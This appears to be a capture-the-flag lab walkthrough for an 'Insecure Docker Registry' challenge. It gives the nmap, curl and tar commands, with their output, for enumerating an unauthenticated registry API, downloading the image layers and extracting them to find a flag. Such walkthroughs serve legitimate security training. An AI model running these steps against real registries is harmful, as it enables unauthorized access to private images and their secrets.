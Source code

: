 ### Name : Insecure Docker Registry II  
### URL : https://www.attackdefense.com/challengedetails?cid=1025  
### Type DevSecOps : Docker Registry  
  
  
Important Note: This document illustrates all the important steps required to complete this lab.
This is by no means a comprehensive step-by-step solution for this exercise. This is only
provided as a reference to various commands needed to complete this exercise and for your
further research on this topic.

Insecure Docker Registry
========================

attacker = 192.111.246.2  
target = 192.111.246.3

#### 1. Scan target machine

```
root@attackdefense:~# nmap -p- -sV 192.111.246.3
Starting Nmap 7.70 ( https://nmap.org ) at 2020-10-01 03:09 UTC
Nmap scan report for target-1 (192.111.246.3)
Host is up (0.000014s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
5000/tcp open  http    Docker Registry (API: 2.0)
MAC Address: 02:42:C0:6F:F6:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```
Discover docker registry on port 5000

#### 2. Interact to API using curl

```
## list repository catalog
root@attackdefense:~# curl http://192.111.246.3:5000/v2/_catalog
{"repositories":["treasure-trove"]}

## list tags for each repository
root@attackdefense:~# curl http://192.111.246.3:5000/v2/treasure-trove/tags/list
{"name":"treasure-trove","tags":["latest"]}
```

#### 3. Pull manifest for the image

```
root@attackdefense:~# curl http://192.111.246.3:5000/v2/treasure-trove/manifests/latest
{
   "schemaVersion": 1,
   "name": "treasure-trove",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:e7c96db7181be991f19a9fb6975cdbbd73c65f4a2681348e63a141a2192a5f10"
      }
   ],
```

#### 4. Download all image layer to .tar file

```
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935 --output 1.tar
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4 --output 2.tar
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:e7c96db7181be991f19a9fb6975cdbbd73c65f4a2681348e63a141a2192a5f10 --output 3.tar
root@attackdefense:~# ls
1.tar  2.tar  3.tar
```

#### 5. Extract image

```
root@attackdefense:~# mkdir image
root@attackdefense:~# mv *.tar image
root@attackdefense:~# cd image/
root@attackdefense:~/image# for i in 1 2 3; do tar -xf $i.tar; done
root@attackdefense:~/image# ls
1.tar  2.tar  3.tar  bin  dev  etc  home  lib  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@attackdefense:~/image#
```

#### 6. Find the flag

```
root@attackdefense:~/image# find . -name *flag* 2> /dev/null
./etc/network/if-post-up.d/flag.txt
root@attackdefense:~/image# cat etc/network/if-post-up.d/flag.txt
c09f6e2ecff56dcae50c02c6a4d355fe
root@attackdefense:~/image#
```
